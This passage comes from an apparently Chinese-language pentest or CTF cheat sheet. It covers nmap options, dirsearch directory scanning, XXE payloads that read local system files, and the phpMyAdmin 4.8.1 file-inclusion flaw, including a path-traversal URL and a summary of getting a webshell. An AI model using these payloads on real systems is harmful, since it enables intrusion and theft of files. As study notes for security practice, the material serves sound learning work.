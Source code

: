 --reason                                                 显示端口处于特殊状态的原因

--open                                                    仅显示开放的端口

杂项

-6                                                          启动Ipv6扫描

-A                                                          启动Os检测，版本检测，脚本扫描和traceroute

-V                                                          显示版本号

-h                                                          帮助信息
————————————————

原文链接：https://blog.csdn.net/smli_ng/article/details/105964486

## 13.目录扫描

dirseach 

dirsearch -u url

## 14.XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

## 15.phpmyadmin 4.8.1 远程文件包含漏洞

总结：

利用phpMyAdmin 4.8.1后台文件包含漏洞，获取登录phpmyadmin系统所产生的sess_sessionID文件，然后通过文件绕过获取相关信息并植入木马，最终获取webshell。通常linux系统中存放路径为/tmp/sess_[当前会话session值]。

### 访问文件

访问`http://x.x.x.x:8080/index.php?target=db_sql.php%253f/../../../../../../../../flag`，可见`flag`被读取，说明文件包含漏洞存在



## 16.变量覆盖
